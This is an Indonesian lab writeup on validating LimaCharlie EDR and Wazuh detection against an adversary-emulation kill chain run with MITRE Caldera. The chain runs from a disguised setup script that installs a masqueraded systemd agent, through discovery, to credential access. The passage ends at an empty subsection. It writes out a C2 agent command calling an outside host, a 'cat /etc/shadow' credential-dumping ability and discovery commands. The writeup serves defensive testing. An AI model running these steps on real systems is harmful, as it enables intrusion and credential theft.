# LimaCharlie EDR Full Kill-Chain Validation (Supply Chain to C2)

> **Status: selesai, 20 November 2026.** Lab ini memvalidasi visibilitas LimaCharlie (EDR) terhadap rantai serangan end-to-end, dari initial access via supply chain compromise hingga command and control menggunakan MITRE Caldera sebagai adversary emulation.

---

# Tujuan

Lab ini menyimulasikan full kill-chain pada Web-Server (`10.10.10.10`) — initial access via supply chain compromise (admin menjalankan tool pihak ketiga yang berisi stager ter-obfuscate), deployment agent Caldera langsung sebagai root, automated discovery & credential access via Caldera Operation, sampai response & containment manual oleh analyst di LimaCharlie.

Fokus lab: memvalidasi apa yang bisa ditangkap LimaCharlie (dan dibandingkan paralel dengan Wazuh yang sudah terpasang di host yang sama) di tiap tahap, bukan mengejar kompromi sistem itu sendiri.

> **Detection First, Exploitation Second.**

---

# Activity Coverage

| Fase | Teknik MITRE | Tujuan | Status |
| ---- | ------------ | ------ | ------ |
| 1 — Initial Access & Execution | T1195, T1204, T1059.004, T1105, T1027, T1543.002 | Admin jalanin `setup.sh` dari repo tool palsu, deploy agent Caldera via systemd service masquerading | ✅ Done (verifikasi EDR nunggu Fase 5) |
| 2 — Validasi Agent | — | Konfirmasi agent Caldera alive & privilege root | ✅ Done (2 agent Elevated) |
| 3 — Discovery | T1033, T1087.001, T1057, T1069.001 | Automated discovery via Caldera Operation | ✅ Done (profile Discovery beda dari rencana awal, lihat catatan Fase 3) |
| 4 — Credential Access | T1003.008, T1005 | Akses `/etc/shadow` + config aplikasi via custom ability Stockpile + Potential Link | ✅ Done (T1003.008 sukses, T1005 gagal — file not found) |
| 5 — Verifikasi Deteksi & Response | T1562.001 | Cross-check LimaCharlie+Wazuh, lalu triage/kill process/isolate sensor | ✅ Done (EDR ✅ 41 detection, SIEM ✅ 64 hits, Response ✅ kill+delete via LimaCharlie) |

---

# Prerequisites

* Repo tool `mini-automation-server` (private, clone via personal access token — PAT gak pernah masuk ke file tracked git) — berperan sebagai "malicious repository" tersamar, isinya `setup.sh` yang deploy agent Caldera via systemd service masquerading
* Caldera — jalan via Docker di M1, dashboard port `8888`
* Sigma rule custom `Linux Suspicious Shell Execution` + rule experimental webshell detection — sudah diupload ke dashboard LimaCharlie
* LimaCharlie sensor — sudah live di Web-Server

---

# Step-by-Step

## Fase 1 — Initial Access & Execution

> **Status: selesai, dieksekusi manual oleh user 20 November 2026.** Pendekatan sebelumnya (webshell DVWA) digantikan — lihat `update.md` untuk alasan pivot dan histori eksekusi Fase 1 versi lama.

### 1.1 Setup Malicious Repository (Attacker)

Repo `mini-automation-server` (private, clone via personal access token) berperan sebagai "malicious repository" tersamar — tool automation yang kelihatan legit (isinya juga ada `health_monitor.sh`, `network_diagnostic.sh`, `service_manager.sh` buat kredibilitas), dengan `setup.sh` sebagai vektor sebenarnya.

**MITRE ID:** T1195 (Supply Chain Compromise) / T1204 (User Execution).

### 1.2 Simulasi Eksekusi Admin (Target — Web-Server, `10.10.10.10`)

Admin (`anang`) export PAT ke env var `LAB_TOKEN`, `git clone` repo `mini-automation-server` pakai token itu ke `/tmp/lab-repo`, lalu jalankan `sudo bash /tmp/lab-repo/setup.sh`.



> Value `LAB_TOKEN` di-blur di screenshot — PAT gak boleh kecatet di writeup tracked git.

`setup.sh` jalan sebagai dua lapis: `apt update` + sesi interaktif yang menyamar sebagai `sensors-detect` (probing hardware) buat kesan tool legit, lalu di baliknya diam-diam bikin symlink systemd service **`splunkd.service`** (masquerading — nama disamarin dari implant Sandcat, T1036.005) dan di-enable ke `multi-user.target.wants` biar persistent/auto-start.



Karena dieksekusi langsung dengan `sudo` oleh admin (bukan lewat proses web service), agent Caldera yang ter-deploy landing dengan privilege **root** sejak awal — makanya fase Privilege Escalation dari versi lab sebelumnya gak dibutuhin lagi.

**MITRE ID:** T1059.004 (Unix Shell) / T1105 (Ingress Tool Transfer) / T1027 (Obfuscated Files or Information) / T1543.002 (Create or Modify System Process: Systemd Service).

### 1.3 Verifikasi Deteksi EDR (LimaCharlie)

**Hasil: parsial.** LimaCharlie **gak capture** command line eksekusi `setup.sh` itu sendiri secara langsung (Detections-nya baru mulai dari titik `sandcat.go` udah jalan, Fase 5.1) — gap ini ketutup lewat cross-check ke Wazuh (`sudo` rule `5402`, Fase 5.2), bukan dari LimaCharlie. Ada juga 5 LimaCharlie detection di window `07:11:39`-`07:19:25` yang gak pernah dibuka detailnya satu-satu buat mastiin ada hubungannya atau noise (dicatat di Fase 5.1 catatan #2 + **Batasan**). Lihat Fase 5.1 & 5.2 buat kronologi lengkap yang beneran tervalidasi.

**Ekspektasi:**
1. Event `NEW_PROCESS` untuk `git` dan `bash` (`setup.sh`).
2. Event `NEW_PROCESS` untuk proses decoy (`sensors-detect` dkk).
3. Event `NEW_PROCESS` dan `NETWORK_CONNECTION` dari agent Caldera (`splunkd`/`sandcat.go`) ke Caldera di M1 (`192.168.43.193:8888`), plus event terkait pembuatan systemd unit `splunkd.service`.

**MITRE ID:** T1036 (Masquerading) / T1071.001 (Web Protocols).

---

## Fase 2 — Validasi Agent

> **Status: selesai, 20 November 2026.**

### 2.1 Cek Status Agent

Dashboard Caldera (**Agents**) menampilkan **2 agent baru alive & trusted**, privilege **Elevated** — `dmtdds` (pid `4065`) dan `tmdxmf` (pid `3919`). Dua agent ini konsisten sama dua jalur spawn di 1.2: satu dari proses `setup.sh` langsung (foreground), satu lagi dari service `splunkd.service` yang auto-start lewat systemctl. Agent lama `qnofwy` (dari percobaan webshell yang di-supersede) tetap tercatat **dead, untrusted** — dibiarkan apa adanya sebagai jejak histori, gak di-kill manual.



Detail salah satu agent (`tmdxmf`) konfirmasi privilege root: `username: root`, `privilege: Elevated`, `executable: sandcat.go`, `location: /tmp/sandcat.go`, `ppid: 3916`.



---

## Fase 3 — Discovery

> **Status: selesai, 20 November 2026.** Dijalankan otomatis lewat **Caldera Operation** "`Discovery-Labs-Phase3`" (adversary profile **Discovery**, planner `atomic`), start `2026-11-20T07:37:50Z` (14:37:50 WIB). Target: agent hasil deployment Fase 1 (privilege root).

### 3.1 Jalankan Operasi Caldera

Di dashboard Caldera: **Operations** → buat operation baru → pilih agent/group `red` → pilih adversary profile **Discovery** → **Start** (mode autonomous).



### 3.2 Ability yang Benar-Benar Dijalankan

Profile bawaan Caldera **Discovery** isinya beda dari rencana awal di playbook (T1033/T1082/T1049) — yang benar-benar jalan:

* **T1033** System Owner/User Discovery — "Identify active user" (`whoami` → `root`)
* **T1087.001** Account Discovery: Local Account — "Find local users" (`cut -d: -f1 /etc/passwd | grep -v '_' | grep -v '#'` → daftar akun sistem)
* **T1057** Process Discovery — "Find user processes", looping `ps aux | grep <user>` ke ~34 akun sistem satu per satu. Nemu proses Wazuh (`/var/ossec/bin/...` jalan sebagai `root`) — confirm agent Wazuh yang udah terpasang paralel di host yang sama ikut keliatan dari discovery ini.
* **T1069.001** Permission Groups Discovery: Local Groups — "Permission Groups Discovery" (`groups` → `root`)

T1082 (System Information Discovery) dan T1049 (System Network Connections Discovery) yang direncanain di playbook awal ternyata gak termasuk di profile Discovery bawaan Caldera — gak dipaksain, dicatat apa adanya.

### 3.3 Failover Agent di Tengah Operation

Operation ini kepotong jalan lintas 2 agent: agent `dmtdds` (root, dari eksekusi langsung `setup.sh`) mati di tengah loop T1057 sekitar 14:39:40 WIB — 3 percobaan ability gagal (timeout). Systemd me-restart service `splunkd.service`, lahir agent baru `drdvic` (root, dari systemctl) jam 14:40:01 WIB. Caldera otomatis lanjutin operation ke agent baru ini — full chain (T1033 → T1087.001 → T1057 → T1069.001) sukses dieksekusi ulang dari awal di `drdvic`, semua `status: success`.

**Target EDR:** harusnya ke-capture semua `NEW_PROCESS` buat `whoami`/`cut`/`ps`/`groups` per agent, plus event mati-hidupnya proses `splunkd` pas failover (sinyal persistence via systemd, relevan juga buat Fase 5).

---

## Fase 4 — Credential Access

> **Status: selesai, 20 November 2026.** Caldera gak punya adversary profile/ability bawaan yang pas buat T1003.008 di konteks lab ini, jadi dibikin **custom ability** sendiri di Stockpile, bukan pakai adversary profile otomatis kayak Fase 3.

### 4.1 Bikin Custom Ability di Stockpile (T1003.008)

Dashboard Caldera: **Stockpile** → **abilities** → **+ Create an Ability**. Dibuat ability baru:

* **Name:** Read Shadow File
* **Description:** Simulasi Credential Dumping via Caldera
* **Tactic:** `credential-access`
* **Technique ID / Name:** `T1003.008` — OS Credential Dumping: /etc/passwd and /etc/shadow
* **Executor:** `linux` / `sh`, tanpa payload
* **Command:** `cat /etc/shadow`, timeout `60`





**MITRE ID:** T1003.008 (OS Credential Dumping: /etc/passwd and /etc/shadow).

### 4.2 Buat Operation Baru

Dashboard Caldera: **Operations** → **+ New Operation** → nama `Credential Access Test`, host-group target agent root hasil Fase 1-3 (`drdvic`).



### 4.3 Tambah Potential Link ke Ability Custom

Karena ability custom ini gak ada di adversary profile manapun, dipaksa masuk ke operation yang jalan lewat tombol **+ Potential Link** → pilih ability **Read Shadow File** → target agent `drdvic`.

Hasil: ability **Read Shadow File** sukses dieksekusi di agent `drdvic` (pid `5224`, host `web-server`), 20 November 2026 15:51:33 WIB, status **success**.



> Isi `/etc/shadow` (hash password sistem) di **View Output** gak dikutip verbatim di writeup ini — meskipun cuma lab, hash password tetep sensitif dan gak perlu nempel di file tracked git. Dampaknya nyata: bukan cuma akun sistem (`daemon`, `bin`, `sys`, dll — semuanya locked/`*`), tapi akun admin asli (`a***g`) ikut ke-expose hash password-nya.

**Target EDR:** harus memicu alert **High Severity** di LimaCharlie buat akses file kredensial sistem (`FILE_ACCESS`/`NEW_PROCESS` ke `/etc/shadow`), konsisten sama ekspektasi awal di playbook.

### 4.4 T1005 — Data from Local System

> **Status: dicoba, gagal.** Gak ada screenshot — ditulis langsung dari operation report JSON (`Steal Data from local system_report.json`, scratchpad).

Pola sama kayak 4.1-4.3: custom ability baru di Stockpile — **Read Web Config** (tactic `collection`, technique `T1005` — Data from Local System, command `cat /var/www/html/config.php`), operation `Steal Data from local system` (adversary `ad-hoc`), di-Potential Link ke agent `tmdxmf`, start 20 November 2026 16:11:37 WIB.

**Hasil: gagal.** `exit_code: 1`, stderr `cat: /var/www/html/config.php: No such file or directory` — file config di path itu emang gak ada di environment ini (konsisten, vektor Fase 1 lab ini sekarang supply chain/`mini-automation-server`, bukan DVWA lagi, jadi asumsi path `config.php` dari playbook lama gak otomatis valid). Dicatat apa adanya, gak dikejar lebih jauh buat nyari path config yang bener.

---

## Fase 5 — Verifikasi Deteksi & Response

> **Status: selesai, 20 November 2026.** EDR (LimaCharlie), SIEM (Wazuh), MITRE Mapping Summary, dan Response & Containment seluruhnya udah dieksekusi/didokumentasikan.

### 5.1 Verifikasi Deteksi — LimaCharlie (EDR)

Dashboard LimaCharlie → **Detections**, filter tanggal `2026-11-20`. Total **41 log detection**, rentang `07:25:50` s.d. `09:12:17` (timestamp UTC — epoch sama kayak di operation report Caldera, bukan WIB).

**Kronologi utama** (cross-check ke Fase 1-4 di atas):

| Waktu (UTC) | Kategori Deteksi | Command/Detail | Korelasi |
| --- | --- | --- | --- |
| `07:25:50` | Potentially Suspicious Execution From Tmp Folder | `/tmp/sandcat.go -server http://192.168.43.193:8888`, file udah `(deleted)` | Deploy agent Caldera (Fase 1) |
| `07:38:32`–`08:10:29` | Shell Execution Of Process Located In Tmp Directory (34x) | `whoami` → `cut -d: -f1 /etc/passwd ...` → loop `ps aux \| grep <user>` (32x) | Operation Discovery (Fase 3) |
| `08:10:29` & `08:13:11` | Local Groups Discovery Attempt - Linux | `groups` | Penutup Discovery, 2x karena 2 agent (`tmdxmf` pid 3919 & `drdvic` pid 4308) |
| `08:52:06` | Local System Accounts Discovery Attempt - Linux | `cat /etc/shadow`, parent `/usr/bin/dash`, hash binary `f84e76ea...` | Credential Access (Fase 4, T1003.008) |
| `09:12:17` | Shell Execution Of Process Located In Tmp Directory | `cat /var/www/html/config.php` | Percobaan T1005 (Fase 4, gagal — file not found) |




> Email `author` custom rule di-blur di kedua screenshot — bukan info yang perlu nempel di writeup tracked git.

**Temuan & kesimpulan (dari user):** serangan terjadi di VM `web-server`, dari C2 `192.168.43.193`. Berdasarkan 41 detection ini, **LimaCharlie gak nangkep initial access vector-nya** (gimana `setup.sh`/repo `mini-automation-server` pertama kali masuk) — yang kecapture cuma dari titik `sandcat.go` udah jalan. Rekomendasi response: isolasi menyeluruh VM Web-Server, backup data, pindahin layanan production sementara ke backup server selama investigasi.

**Catatan tambahan (cross-check UI):**
